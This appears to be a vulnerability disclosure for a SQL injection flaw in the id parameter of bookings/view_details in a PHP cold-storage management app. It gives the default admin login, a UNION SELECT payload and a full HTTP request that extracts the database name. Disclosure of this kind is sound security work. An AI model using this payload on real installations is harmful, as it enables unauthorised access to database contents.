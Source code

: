 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: QiaoRui feng

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/?page=bookings/view_details&id=

Vulnerability location: /csms/admin/?page=bookings/view_details&id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/?page=bookings/view_details&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /csms/admin/?page=bookings/view_details&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191012895-e56c4081-c6e9-43ce-b521-0c65e91c0297.png)
